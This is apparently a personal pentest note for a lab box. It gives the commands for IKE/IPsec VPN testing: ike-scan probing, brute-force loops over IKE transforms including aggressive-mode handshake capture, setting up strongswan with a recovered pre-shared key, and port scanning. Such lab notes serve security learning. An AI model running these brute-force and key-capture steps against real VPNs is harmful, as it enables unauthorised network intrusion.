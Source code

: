 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting

```bash - kali
ike-scan -M $TARGET
```

![[Pasted image 20220125181008.png | 1200]]

![[Pasted image 20220125182150.png | 1200]]

```bash - kali
echo -n 9C8B1A372B1878851BE2C097031B6E43 | wc -c
```

![[Pasted image 20220125182347.png | 1200]]

```bash - kali
sudo apt install strongswan -y
```

```bash - kali
echo '$TARGET : PSK "Dudecake1!"' >> /etc/ipsec.secrets
```

![[Pasted image 20220125182910.png | 1200]]

```bash - kali
sudo mousepad /etc/ipsec.conf
```

```bash - kali
conn Conceal
	type=transport
	keyexchange=ikev1
	right=$TARGET
	authby=psk
	rightprotoport=tcp
	leftprotoport=tcp
	esp=3des-sha1
	ike=3des-sha1-modp1024
	auto=start
```

```bash - kali
sudo ipsec stop
```

```bash - kali
sudo ipsec start --nofork
```

```bash - kali
nmap -p- -sT $TARGET
```

---

```bash - kali
for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt ;done ;done ;done ;done
```

And then brute-force each one using ike-scan (this can take several minutes):

```bash - kali
while read line; do (echo "Valid trans found: $line" && sudo ike-scan -M $line $TARGET) | grep -B14 "1 returned handshake" | grep "Valid trans found" ; done < ike-dict.txt
```

If the brute-force didn't work, maybe the server is responding without handshakes even to valid transforms. Then, you could try the same brute-force but using aggressive mode:

```bash - kali
while read line; do (echo "Valid trans found: $line" && ike-scan -M --aggressive -P handshake.txt $line $TARGET) | grep -B7 "SA=" | grep "Valid trans found" ; done < ike-dict.txt
```

Hopefully a valid transformation is echoed back. You can try the same attack using https://github.com/isaudits/scripts/blob/master/iker.py

ou could also try to brute force transformations with https://github.com/SpiderLabs/ikeforce

```bash - kali
./ikeforce.py $TARGET # No parameters are required for scan -h for additional help
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
